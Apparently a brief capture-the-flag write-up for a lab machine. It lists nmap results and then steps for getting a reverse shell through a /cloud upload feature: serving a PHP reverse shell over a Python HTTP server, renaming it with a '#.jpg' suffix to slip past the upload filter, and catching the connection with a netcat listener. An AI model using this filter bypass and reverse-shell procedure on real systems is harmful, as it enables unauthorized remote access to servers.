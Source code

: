 ### nmap
PORT    STATE SERVICE     VERSION 
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)  
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))  
139/tcp open  netbios-ssn Samba smbd 4.6.2  
445/tcp open  netbios-ssn Samba smbd 4.6.2  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

## directory enumeration  
/cloud 
File upload from External server.  
1. Start python server on kali machine
python -m http.server  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
2. Rename shell to php-reverse-shell.php#.jpg and also keep php-reverse-shell.php in the same folder  
3. start nc -nlvp 4444  
4. Upload the file  
5. We get reverse shell  


